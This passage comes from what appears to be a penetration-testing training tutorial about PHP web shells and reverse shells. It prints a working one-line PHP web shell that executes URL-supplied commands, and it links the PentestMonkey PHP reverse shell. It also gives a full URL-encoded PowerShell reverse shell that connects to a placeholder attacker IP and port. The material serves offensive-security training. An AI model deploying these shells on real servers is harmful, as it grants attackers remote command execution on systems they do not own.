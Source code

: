 As PHP is still the most common server side scripting language,
let's have a look at some simple code for this.

In a very basic one line format:

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a GET parameter in the URL and execute it on the system with
`shell_exec()`. Essentially, what this means is that any commands we enter in the
URL after `?cmd=` will be executed on the system -- be it Windows or Linux.
The "pre" elements are to ensure that the results are formatted correctly
on the page.

Let's see this in action:

Notice that when navigating the shell, we used a GET parameter "cmd" with the
command "ifconfig", which correctly returned the network information of the box.
In other words, by entering the `ifconfig` command
(used to check the network interfaces on a Linux target) into the URL of our shell,
it was executed on the system, with the results returned to us.
This would work for any other command we chose to use
(e.g. `whoami`, `hostname`, `arch`, etc).

As mentioned previously, there are a variety of webshells available on Kali by
default at `/usr/share/webshells` -- including the infamous
[PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
-- a full reverse shell written in PHP.
Note that most generic, language specific (e.g. PHP) reverse shells are
written for Unix based targets such as Linux webservers.
They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell,
or by using msfvenom to generate a reverse/bind shell in the language of the server.
With the former method, obtaining RCE is often done with a URL Encoded
Powershell Reverse Shell. This would be copied into the URL as the cmd argument:

`powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`

This is the same shell we encountered in Task 8, however,
it has been URL encoded to be used safely in a GET parameter.
Remember that the IP and Port (bold, towards end of the top line)
will still need to be changed in the above code.

## Next Steps

#### Ok, we have a shell. Now what

